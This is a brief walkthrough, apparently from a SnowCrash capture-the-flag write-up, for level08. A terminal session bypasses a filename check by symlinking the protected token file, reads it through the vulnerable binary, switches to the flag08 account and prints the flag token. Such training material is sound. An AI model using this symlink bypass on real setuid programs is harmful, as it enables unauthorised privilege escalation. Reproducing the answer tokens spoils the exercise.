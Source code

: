 ### Comment obtenir le flag
level08@SnowCrash:~$ ln -s ~/token /tmp/link  
level08@SnowCrash:~$ ./level08 /tmp/link  
quif5eloekouj29ke0vouxean  
level08@SnowCrash:~$ su flag08  
Password:  
Don't forget to launch getflag !  
flag08@SnowCrash:~$ getflag  
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f  
